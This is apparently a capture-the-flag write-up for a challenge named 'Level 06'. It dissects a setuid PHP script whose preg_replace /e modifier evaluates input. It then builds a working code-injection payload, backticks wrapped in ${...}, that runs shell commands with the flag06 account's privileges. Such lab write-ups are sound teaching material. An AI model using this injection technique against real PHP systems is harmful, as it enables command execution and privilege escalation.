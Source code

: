 # Level 06

## Initial Context

- Two file: `level06` and `level06.php`

## Solving the Challenge

### Analizing

```bash
$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

`level06` seems to be a PHP interpreter connected to `level06.php`.

```bash
$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

Cleaning this file, we have:

```php
<?php

function y($m)
{
    $m = preg_replace('/\./', ' x ', $m);
    $m = preg_replace('/@/', ' y', $m);
    return $m;
}

function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace('/(\[x (.*)\])/e', "y(\"\\2\")", $a);
    $a = preg_replace('/\[/', '(', $a);
    $a = preg_replace('/\]/', ')', $a);
    return $a;
}

$r = x($argv[1], $argv[2]);
print $r;

?>
```

The exploit here resides  in the usage of the [regex's E modifier, allowing code to be executed for a string replacement](https://stackoverflow.com/a/16986549/7292958).

The regex expect to match a string like: `[x <something>]`

```
.----------------- starting the regex
|.---------------- capturing 1st group
|| .-------------- litteral string "[x "
|| |  .----------- caturing 2nd group
|| |  |   .------- litteral string "]"
|| |  |   |  .---- ending of the regex
|| |  |   |  |.--- regex modifiers: e
|| |  |   |  ||
/(\[x (.*)\])/e
```

And if match is found, it will be replaced with:

```
.------ calling `y` function
|  .--- placing 2nd capture group
|  | 
y("\2")
```

An example would be:

```
[x hello]  -->  y("hello")
```

So if we manage to call custom code, we will be able to execute a Linux command with the same privileges as `flag06`.

### Exploiting

Using a simple docker running a vulnerable PHP version, we can test things:

```
docker run --rm -it php:5-cli
```

We can evaluate simple expressions:

```php
php> echo preg_replace('/(.*)/e', "\\1", "1+1");
2
```

But calling methods with a string parameter seems to fail...

```php
php > echo preg_replace('/(.*)/e', "\\1", "shell_exec('id')");
Parse error: syntax error, unexpected ''id\');' (T_ENCAPSED_AND_WHITESPACE), expecting identifier (T_STRING) in php shell code(1) : regexp code on line 1

Fatal error: preg_replace(): Failed evaluating code:
shell_exec(\'id\') in php shell code on line 1
```

```php
php> echo preg_replace('/(.*)/e', "\\1", "shell_exec(\"id\")");
Parse error: syntax error, unexpected '"', expecting identifier (T_STRING) in php shell code(1) : regexp code on line 1

Fatal error: preg_replace(): Failed evaluating code:
shell_exec(\"id\") in php shell code on line 1
```

However, `shell_exec($cmd)` can be replaced using the [backtick operator](https://www.php.net/manual/en/function.shell-exec.php#:~:text=This%20function%20is%20identical%20to%20the%20backtick%20operator.).

```php
php> echo preg_replace('/(.*)/e', "\\1", "`id`");
uid=0(root) gid=0(root) groups=0(root)
```

Perfect, now we can combine it with the required string to make a match.

```bash
$ echo '[x `id`]' | ./level06 php://stdin
`id`
```

It seems to not work since we are being put between quotes. (`y("\2")`)

We can bypass that by using [string variables](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing). That mean wrapping our payload inside a `${code}`.

```bash
$ echo '[x ${`id`}]' | ./level06 php://stdin
PHP Notice:  Undefined variable: uid=3006(flag06) gid=2006(level06) groups=3006(flag06),100(users),2006(level06)
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

We are getting an error because PHP is trying to execute the output of `id`. But we are still getting the output, so its fine.

```bash
$ echo '[x ${`getflag`}]' | ./level06 php://stdin
PHP Notice:  Undefined variable: Check flag.Here is your token : ....
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

Success!